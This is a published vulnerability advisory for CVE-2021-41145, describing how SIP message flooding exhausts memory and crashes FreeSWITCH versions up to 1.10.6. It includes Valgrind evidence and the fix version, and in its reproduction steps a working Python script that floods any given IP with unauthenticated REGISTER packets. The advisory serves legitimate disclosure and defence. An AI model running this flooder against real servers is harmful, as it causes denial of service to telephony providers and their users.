

# FreeSWITCH susceptible to Denial of Service via SIP flooding

- Fixed versions: v1.10.7
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-06-freeswitch-flood-dos
- Vendor Security Advisory: https://github.com/signalwire/freeswitch/security/advisories/GHSA-jvpq-23v4-gp3m
- Other references: CVE-2021-41145
- Tested vulnerable versions: <= v1.10.6
- Timeline:
    - Report date: 2021-05-28
    - Triaged: 2021-06-18
    - Fix provided for testing: 2021-10-08
    - Second fix provided for testing: 2021-10-13
    - Vendor release with fix: 2021-10-24
    - Enable Security advisory: 2021-10-25

## Description

When flooding FreeSWITCH with SIP messages, it was observed that after a number of seconds the process was killed by the operating system due to memory exhaustion. The following excerpt from syslog shows one such instance:

```
May 25 15:19:30 ubuntu-bionic kernel: [ 4205.446584] Out of memory: Kill process 22590 (freeswitch) score 939 or sacrifice child
May 25 15:19:30 ubuntu-bionic kernel: [ 4205.449845] Killed process 22590 (freeswitch) total-vm:10484768kB, anon-rss:7894136kB, file-rss:0kB, shmem-rss:0kB
May 25 15:19:30 ubuntu-bionic kernel: [ 4205.720680] oom_reaper: reaped process 22590 (freeswitch), now anon-rss:0kB, file-rss:0kB, shmem-rss:0kB
```

The tests were carried out using the SIP messages REGISTER, SUBSCRIBE, NOTIFY, PUBLISH, MESSAGE, INVITE and OPTIONS. On a machine with 8 gigabytes of RAM, the FreeSWITCH process crashed after 90 seconds of flooding with the SIP message REGISTER.



When FreeSWITCH was run using [Valgrind](https://valgrind.org/), it was reported that large chunks of memory were being allocated in functions from the Sofia-SIP library source file `su_alloc.c`. Valgrind was executed with the flag `--leak-check=full` in order to get a detailed report of potential memory leaks. The target was flooded for a few seconds and then FreeSWITCH was gracefully terminated. The following is an excerpt from the report which identified large numbers of memory allocations in the function `su_home_new` in `su_alloc.c`:

```
2021-05-25 15:23:48.870010 [CONSOLE] switch_core_memory.c:671 Stopping memory pool queue.
==401426== 
==401426== HEAP SUMMARY:
==401426==     in use at exit: 26,039,233 bytes in 87,160 blocks
==401426==   total heap usage: 7,195,625 allocs, 7,108,465 frees, 986,221,122 bytes allocated
==401426== 
...
==401426== 25,718,877 (368 direct, 25,718,509 indirect) bytes in 1 blocks are 
            definitely lost in loss record 367 of 367
==401426==    at 0x483DD99: calloc (in /.../vgpreload_memcheck-amd64-linux.so)
==401426==    by 0x5422B57: su_home_new (su_alloc.c:569)
==401426==    by 0x53AFB16: nua_create (nua.c:146)
==401426==    by 0xA44D4B1: ???
==401426==    by 0x4C054EF: dummy_worker (thread.c:151)
==401426==    by 0x4D19608: start_thread (pthread_create.c:477)
==401426==    by 0x4E55292: clone (clone.S:95)
==401426== 
==401426== LEAK SUMMARY:
==401426==    definitely lost: 3,688 bytes in 35 blocks
==401426==    indirectly lost: 25,728,877 bytes in 86,737 blocks
==401426==      possibly lost: 133,576 bytes in 40 blocks
==401426==    still reachable: 173,092 bytes in 348 blocks
```


## Impact

By abusing this vulnerability, an attacker is able to crash any FreeSWITCH instance by flooding it with SIP messages, leading to Denial of Service. The attack does not require authentication and can be carried out over UDP, TCP or TLS.

## How to reproduce the issue

1. Build FreeSWITCH from source and install it
2. Run FreeSWITCH with the default configuration
3. Save the following Python script as `freeswitch-sipflood.py`

    ```python
    import socket, string, random, sys
    
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    cseq = 1
    UDP_IP = sys.argv[1]
    UDP_PORT = 5060
    
    while True:
        r = ''.join(random.choice(string.ascii_lowercase) for i in range(10))
    
        msg = "REGISTER sip:%s SIP/2.0\r\n" % (UDP_IP, )
        msg += "Via: SIP/2.0/UDP 127.0.0.1:46786;rport;branch=z9hG4bK-%s\r\n" % (r, )
        msg += "Max-Forwards: 70\r\n"
        msg += "From: <sip:98647499@%s>;tag=%s\r\n" % (UDP_IP, r, )
        msg += "To: <sip:98647499@%s>\r\n" % (UDP_IP, )
        msg += "Call-ID: %s\r\n" % (r, )
        msg += "CSeq: %s REGISTER\r\n" % (cseq, )
        msg += "Contact: <sip:98647499@%s:46786;transport=udp>\r\n" % (UDP_IP, )
        msg += "Expires: 60\r\n"
        msg += "Content-Length: 0\r\n"
        msg += "\r\n" 
    
        sock.sendto(msg.encode(), (UDP_IP, UDP_PORT))
    
        cseq += 1
    ```
4. Run the Python script and specify the target IP as the first command line parameter:

    ```bash
    python freeswitch-sipflood.py <target_ip>
    ```
5. Notice that the memory consumption of FreeSWITCH increases rapidly over time, until FreeSWITCH is killed by the underlying operating system

Note that in some cases where the test machine under attack has more memory resources, the attack done over UDP may not succeed in consuming all system memory. During our testing with SIPVicious PRO, however, we could always get the process to consume all the system's memory when the attack is done over TCP.

## Solution and recommendations

Upgrade to a version of FreeSWITCH that fixes this issue.

Our suggestion to the FreeSWITCH developers was the following:

> Our recommendation for FreeSWITCH developers is to review the code handling memory allocation and apply changes to address this issue. At Enable Security we're happy to test potential fixes for this issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

